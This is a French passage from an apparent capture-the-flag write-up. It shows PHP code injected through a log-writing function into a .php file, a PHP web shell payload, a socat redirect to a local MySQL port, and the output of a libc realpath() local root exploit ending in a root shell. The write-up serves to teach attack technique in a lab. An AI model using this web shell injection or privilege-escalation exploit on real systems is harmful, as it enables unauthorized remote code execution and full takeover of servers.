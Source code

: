 ```php
function addlog($log, $reason) {
    $myFile = "s3cr3t-dir3ct0ry-f0r-l0gs/" . date("Y-m-d") . ".php";
    if (file_exists($myFile)) {
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    } else {
        $fh = fopen($myFile, 'w');
        fwrite($fh, file_get_contents("dummy.php") . "<br>\n");
        fclose($fh);
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    }
    fclose($fh);
}
```

Le code est fait de telle façon que les fichiers de logs écrits avec l'extension *.php* commencent toujours par le contenu de *dummy.php* qui bloque l'accès si l'on est pas authentifié, donc pas de problèmes pour nous.  

Ici on contrôle l'email et donc le premier paramètre de *addlog()*. Il ne reste plus qu'une difficulté à savoir le script réécrit les valeurs de $\_POST en appliquant un *addslashes()* dessus, il faut donc faire attention à ce que l'on passe comme email si on ne veut pas cramer le code PHP que l'on souhaite injecter.  

Le code suivant passe parfaitement :  

```php
<?php system($_GET[chr(99)]); ?>
```

Un [shell PTY](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_bind.py) plus tard, et après n'avoir pas trouvé de moyens classiques de passer root, je décide de fouiller dans la base SQL.  

Une petite redirection *socat* pour la forme : *socat TCP4-LISTEN:3366,fork,reuseaddr TCP4:127.0.0.1:3306*  

Mais la base s'avère inintéressante et les identifiants SQL ne sont pas réutilisés...  

Baby don't hurt me
------------------

Finalement j'ai eu recourt à [un exploit de halfdog](https://www.exploit-db.com/exploits/43775/) pour une vulnérabilité touchant la fonction *realpath()* de la libc :  

```plain
www-data@ubuntu:/tmp$ ./whatislove
./whatislove: setting up environment ...
Detected OS version: "16.04.3 LTS (Xenial Xerus)"
./whatislove: using umount at "/bin/umount".
No pid supplied via command line, trying to create a namespace
CAVEAT: /proc/sys/kernel/unprivileged_userns_clone must be 1 on systems with USERNS protection.
Namespaced filesystem created with pid 7195
Attempting to gain root, try 1 of 10 ...
Starting subprocess
Stack content received, calculating next phase
Found source address location 0x7ffd91510aa8 pointing to target address 0x7ffd91510b78 with value 0x7ffd9151223f, libc offset is 0x7ffd91510a98
Changing return address from 0x7f2563cbe830 to 0x7f2563d5de00, 0x7f2563d6aa20
Using escalation string %69$hn%73$hn%1$25557.25557s%67$hn%1$1.1s%71$hn%1$6991.6991s%68$hn%72$hn%1$11003.11003s%70$hn%1$13280.13280s%66$hn%1$8704.8704s%1$2694.2694s%1$s%1$s%65$hn%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%39$hn-%35$lx-%39$lx-%64$lx-%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%70$lx-%71$lx-%78$s
Executable now root-owned
Cleanup completed, re-invoking binary
/proc/self/exe: invoked as SUID, invoking shell ...
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```